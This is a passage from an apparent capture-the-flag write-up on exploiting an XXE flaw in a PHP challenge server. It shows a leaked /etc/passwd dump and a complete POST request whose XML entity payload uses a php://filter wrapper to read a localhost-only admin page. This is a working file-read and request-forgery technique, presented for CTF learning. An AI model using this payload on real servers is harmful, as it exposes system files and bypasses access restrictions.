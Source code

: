 ```lang-bash line-numbers 
HTTP/1.1 200 OK
Date: Fri, 17 Jan 2014 13:49:12 GMT
Server: Apache/2.2.22 (Ubuntu)
X-Powered-By: PHP/5.3.10-1ubuntu3.8
Vary: Accept-Encoding
Content-Length: 1041
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
whoopsie:x:103:106::/nonexistent:/bin/false
landscape:x:104:109::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user,,,:/home/user:/bin/bash
```

The nice thing about this XXE vulnerability is not that we can read any file (that we already could using the SplFileObject class) but that we can use to initiate requests from the own server!

Now we can bypass localhost address restriction, however accessing http://locahost/admin.php returns some characters that break the XML schema so we will use the PHP base64 encoder filter to return an XML schema friendly version of the page:

```lang-bash line-numbers 
POST /index.php?action=SimpleXMLElement HTTP/1.1
Host: hackyou2014tasks.ctf.su:40080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.9; rv:26.0) Gecko/20100101 Firefox/26.0
Content-Type: application/x-www-form-urlencoded;application/xml
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,es-es;q=0.8,es;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 140

param=<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://localhost/admin.php" >]><foo>%26xxe;</foo>
```

